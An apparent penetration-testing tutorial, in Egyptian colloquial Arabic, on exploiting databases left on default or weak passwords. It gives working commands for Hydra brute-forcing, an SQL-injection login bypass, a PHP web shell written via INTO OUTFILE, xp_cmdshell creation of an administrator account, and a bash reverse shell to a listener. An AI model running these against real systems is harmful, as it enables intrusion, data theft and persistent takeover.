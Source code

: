 # **1. إيه يعني Using Default Credentials or Weak Passwords for Database Authentication؟**

## **الشرح العميق:**
يعني إن قاعدة البيانات (زي MySQL، MSSQL، PostgreSQL) بتستخدم كلمات سر افتراضية (Default Credentials) أو كلمات سر ضعيفة جدًا (Weak Passwords) للمستخدمين بتوعها. "Default Credentials" هي اللي بتيجي جاهزة مع البرنامج (زي `root` بدون كلمة سر في MySQL أو `sa` بكلمة سر `admin` في MSSQL)، و"Weak Passwords" هي حاجة زي `1234` أو `password`. المشكلة إن المهاجمين بيعرفوا القيم الافتراضية دي، وكلمات السر الضعيفة بتكون سهلة التخمين، فلو ما اتغيرتش أو اتعملت أقوى، بيبقى الباب مفتوح لأي حد يدخل.

- ء **Default Credentials:** زي `root:` (فاضي) أو `sa:sa`.
- ء **Weak Passwords:** زي `admin123` أو `dbpass`.

## **الأدوات والأوامر العملية:**
### 1. **فحص MySQL:**
   - `mysql -u root -p -h 192.168.1.10` -> اضغط Enter بدون كلمة سر.
   - لو دخلت: `SHOW DATABASES;` -> يعني root مفتوح.

### 2. **فحص MSSQL:**
   - `sqlcmd -S 192.168.1.10 -U sa -P ""`.
   - لو نجحت، شغل: `SELECT @@VERSION;` -> يعني sa مفتوح.

### 3. **تخمين كلمات سر ضعيفة:**
   - بـ Hydra:
     - `hydra -l root -P /path/to/wordlist.txt mysql://192.168.1.10`.
     - لو لقيت `root:1234`، يبقى ضعيف.

## **خلاصة بالعامية المصرية:**
"يعني زي ما تكون سايب باب البيت مفتوح أو حاطط مفتاح تحت الدواسة وكاتب عليه `خش`! Default Credentials زي كلمة السر اللي بتيجي مع العربية، وWeak Passwords زي ما تكتب `123` وتقول محدش هيعرفها."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
الكلمات الافتراضية أو الضعيفة بتخلّي أي حد يقدر يدخل قاعدة البيانات بسهولة، وبما إن قاعدة البيانات فيها كل حاجة مهمة (زي بيانات العملاء، كلمات السر، أو معلومات الشركة)، المهاجم يقدر:
- **يسرق البيانات:** ياخد كل حاجة في الجداول.
- **يعدل أو يمسح:** يخرب النظام أو يغير بيانات.
- **يصعد صلاحيات:** لو قاعدة البيانات متصلة بالسيرفر، يقدر ياخد Shell أو يتحكم في النظام كله.

في الـ Pentesting، دي من أسهل الثغرات اللي بتلاقيها، لأن كتير من المسؤولين بيسيبوا الكلمات الافتراضية أو يحطوا حاجة ضعيفة وينسوا يغيروها.

## **الأدوات والأوامر العملية:**
### 1. **استغلال MySQL Default:**
   - `mysql -u root -h 192.168.1.10` -> لو دخلت:
     - `SELECT * FROM mysql.user;` -> تسريب بيانات المستخدمين.
     - `SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';`.

### 2. **استغلال MSSQL sa:**
   - `sqlcmd -S 192.168.1.10 -U sa -P "sa"`.
   - `EXEC xp_cmdshell 'whoami';` -> لو رجع `system`، يبقى سيطرت.

### 3. **SQL Injection للتخمين:**
   - `http://192.168.1.10/login.php?user=admin' OR 1=1 -- &pass=123`.
   - لو دخلت، يبقى التطبيق بيستخدم كلمة سر ضعيفة.

## **خلاصة بالعامية المصرية:**
"المشكلة دي خطيرة لأنها زي ما تكون سايب خزنة فلوسك مفتوحة وكاتب الكود جنبها! المهاجم يخش، ياخد كل حاجة، ولو لقى طريق للسيرفر، يبقى هو الباشا بتاعك."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الكلمات الافتراضية أو الضعيفة عشان تدخل قاعدة البيانات وتاخد وصول أعلى.
- **مثال واقعي:** لو لقيت MySQL مفتوح كـ root، تكتب Shell وتتحكم في السيرفر.

## **خلاصة بالعامية المصرية:**
"لما تلاقي كلمة سر زي دي، زي ما تكون لقيت مفتاح الباب في جيبك! بتستخدمه عشان تفتح كل حاجة وتبقى الكبير بتاع المكان."

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 3306: MySQL 5.7.
  - Port 1433: MSSQL.

## **الخطوة 2: تجربة Default Credentials**
- MySQL:
  - `mysql -u root -p -h 192.168.1.10` -> Enter بدون كلمة سر.
  - أو: `mysql -u root -proot -h 192.168.1.10`.
- MSSQL:
  - `sqlcmd -S 192.168.1.10 -U sa -P ""`.
  - أو: `sqlcmd -S 192.168.1.10 -U sa -P "sa"`.

## **الخطوة 3: تخمين Weak Passwords**
- لو ما نجحتش:
  - `hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.1.10`.
  - أو لـ MSSQL:
    - `hydra -l sa -P /usr/share/wordlists/rockyou.txt mssql://192.168.1.10`.

## **الخطوة 4: استغلال الوصول**
- في MySQL (لو دخلت كـ root):
  - `SELECT * FROM mysql.user;` -> تسريب بيانات.
  - `SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';`.
  - افتح: `http://192.168.1.10/shell.php?cmd=id` -> `www-data`.
- في MSSQL (لو دخلت كـ sa):
  - `EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;`.
  - `EXEC xp_cmdshell 'net user hacker pass123 /add';`.

## **الخطوة 5: تصعيد الصلاحيات**
- من Shell في لينكس:
  - `http://192.168.1.10/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell -> `id` -> `sudo -l` -> تصعد لو لقيت حاجة.
- في ويندوز:
  - `EXEC xp_cmdshell 'net localgroup administrators hacker /add';`.
  - سجل دخول بـ `hacker:pass123`.

## **الخطوة 6: توثيق**
- سجل كلمات السر اللي نجحت (زي `root:` أو `sa:sa`).
- قدم تقرير يوضح إزاي دخلت وخطر الثغرة.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت مفتاح الباب في التراب، فتحته، خدت كل حاجة، وطلعت الكبير بتاع الحتة! الكلمات الضعيفة دي طريقك للفوز بسهولة."

---

# **الخلاصة النهائية:**
Using Default Credentials or Weak Passwords for Database Authentication هي ثغرة خطيرة لأنها بتخلّي قاعدة البيانات مفتوحة لأي حد. في الـ Pentesting، دور عليها بـ Nmap وHydra، استغلها عشان تدخل، تسرق بيانات، أو تاخد Shell، ووري العميل إن نظامه زي بيت من غير قفل! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!